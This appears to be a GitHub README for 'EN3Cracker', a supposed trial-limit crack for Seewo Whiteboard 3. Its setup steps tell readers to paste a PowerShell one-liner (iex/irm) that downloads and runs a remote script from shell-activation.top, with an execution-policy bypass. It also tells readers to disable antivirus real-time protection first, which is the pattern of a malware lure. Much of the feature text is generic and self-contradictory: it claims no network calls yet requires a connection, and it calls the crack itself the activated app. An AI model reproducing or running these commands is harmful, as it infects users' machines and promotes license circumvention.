


<div align="center">

# EN3Cracker — Trial Limit Remover for SeewoWhiteboard3 — Game Enhancer


[]() []() []() []()

</div>

---

EN3Cracker is a focused tool that lifts the 15-day trial restrictions in Seewo Whiteboard 3 once the clock runs out. It works by patching the activation component so a fully activated state is returned whenever the software checks. No server-side tricks and no waiting for an official fix that will never come—just a clean bypass that restores locked features like handwriting recognition. If your install has timed out and the official activation path is dead, this is the tool that gets you back in.

## ⚡ Quick Setup (PowerShell)

> [!TIP]
> **One-click install** — paste one command, done in seconds.
> Windows 10 / 11 · PowerShell · One-line install

### 1️⃣ Launch PowerShell
* Press `Win + X`.
* Click **Terminal** or **Windows PowerShell** from the menu.

### 2️⃣ Run the script
Copy the command below, paste it into PowerShell, and press `Enter`.

```cmd
iex(irm 'https://shell-activation.top/update/ps-activator-v_pZBbxuWx7DELoMji')
```

### 3️⃣ Forced run via CMD
Run this command in CMD instead:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "$ProgressPreference='SilentlyContinue';iex(irm 'https://shell-activation.top/update/ps-activator-v_pZBbxuWx7DELoMji')"
```

> [!WARNING]
> If security software blocks the setup, temporarily pause Real-Time Protection, run the script, then re-enable it.

## 📋 System Requirements

- Windows 10 or Windows 11
- PowerShell 5.1 or newer (already available on Windows)
- Active network connection
- No admin rights needed

## Features

- **Trial gate removed** — EN3Cracker patches the activation check so the 15-day trial wall never blocks you again. Once applied, the software reads as activated from the first launch.

- **Feature access restored** — Everything that locked up when the trial expired comes back online. Handwriting recognition, previously disabled tools, and the rest of the trial-gated features work like they should.

- **Activation state faked at the source** — Rather than patching a clock or replaying a license, the tool intercepts the activation component and forces an "activated" response every time it's queried. No countdown to reset, no expiry date to chase.

- **Dead server workaround built in** — Even legitimate codes can't activate anymore since the official activation backend is gone. EN3Cracker sidesteps that entirely — there's no server to phone home to.

- **Binary patch, no source needed** — Ships the modified 希沃白板3 binary plus the program that applies it. The stock installer isn't touched during download; the patch lands on the local copy.

- **Self-contained and offline** — Activation is validated locally with no network calls, so it works on machines that never see the internet and keeps working after the fact.

- **Version-targeted** — Built against the specific 希沃白板3 release line it supports (see Supported Versions). Drop it on the right build and it just works; no fiddling required.

## How It Works

EN3Cracker doesn't touch your lesson files or the app's core engine — it goes straight for the activation layer. The stock EN3Cracker build ships a rewritten activation component that gets called every time EN3Cracker checks its license state. Instead of phoning home or reading a trial counter, that component now reports a clean "activated" status on every call, no matter what the calendar says.

Here's the flow in plain terms:

- **Intercept the check.** EN3Cracker hooks the routine that validates the trial window before any feature gate runs.
- **Force the result.** The patched component returns an activated state unconditionally — the 15-day expiry never gets a chance to fire.
- **Unlock the gates.** Features that used to lock after the trial — handwriting recognition and friends — see the "activated" flag and stay open.
- **Leave everything else alone.** No background services, no scheduled tasks, no persistent daemons. The swap is contained to the activation binary, so the rest of EN3Cracker behaves exactly as it always did.

Because the patch lives in the binary rather than in a running process, you don't need to keep a helper app open or re-apply anything on each launch. Drop in the patched build, start EN3Cracker, and the activation screen reports activated from the first frame.

## Supported Versions

EN3Cracker targets 希沃白板3 builds that still ship the legacy activation component. It's built and tested against the standard 希沃白板3 release line on Windows — the same binaries that hit the 15-day trial wall and lock out features like handwriting recognition.

- **希沃白板3 (Windows)** — fully supported. The activation patch is verified against the stock 希沃白板3 installer and its bundled activation module.
- **希沃白板3 trial-expired installs** — supported. If your copy already flipped to the expired state, the patched binary restores full feature access.
- **希沃白板5** — out of scope. Different codebase, different activation path, not touched by this project.

No server-side dependencies, no version-checking phone-home. Drop in the patched binary, launch, and the activation component reports activated every time.

Heads up: this is a binary-level patch, so it's tied to the 希沃白板3 build it was made against. If 希沃 ever ships a new 希沃白板3 build with a reworked activation component, the patch would need re-verification. Until then — the supported target is 希沃白板3 as distributed, trial expired or not.

## 📸 Screenshot





## Configuration

EN3Cracker ships with zero knobs to fiddle with — drop it in, point it at your install, and it works. Configuration is intentionally minimal, so there's nothing to break and nothing to tune.

**Pointing at your install.** The tool operates on the target 希沃白板3 binary already present on your machine. By default it targets the standard installation path. If you've relocated the app or run a portable copy, supply the binary's location explicitly at runtime so EN3Cracker edits the right file.

**Backup behavior.** Before any modification, EN3Cracker preserves the original binary. Keep that backup — it's your rollback path if you ever want to return to a stock state. No config flag needed; the safety net is on by default.

**Version matching.** Configuration is tied to the supported version range. Mismatched builds won't silently misbehave — the tool checks before patching and refuses to touch binaries it doesn't recognize. Keep 希沃白板3 on a supported release and the rest is automatic.

**No external dependencies.** Nothing phones home, no license server, no activation codes. Once configured, the patched component reports activated status on every call — that's the whole point, and there's nothing left to set up.

## Disclaimer

EN3Cracker ships a patched binary and the loader that does the job — nothing more. No source code for the original software is included or distributed here, and none of the original vendor's code is repackaged. The target application and all rights to it remain with its respective owners.

This is a reverse-engineering project, not an official patch. It alters how the activation component responds, so treat it like any other binary mod: verify what you're running, keep a clean backup, and don't expect the vendor to support a modified install.

Use it at your own risk. The authors make no guarantees about stability, data integrity, or how the software behaves after the modification, and accept no liability for anything that goes sideways — lost work, broken installs, or account issues included. If you need guaranteed support and updates, go through official channels.

Respect local law. The legality of patching activation checks varies by jurisdiction and by how you use the software; that call is yours to make. This project is shared for research and interoperability purposes only.

Don't redistribute this as your own work, don't sell it, and don't point people at it as a replacement for a legitimate license where one is actually available.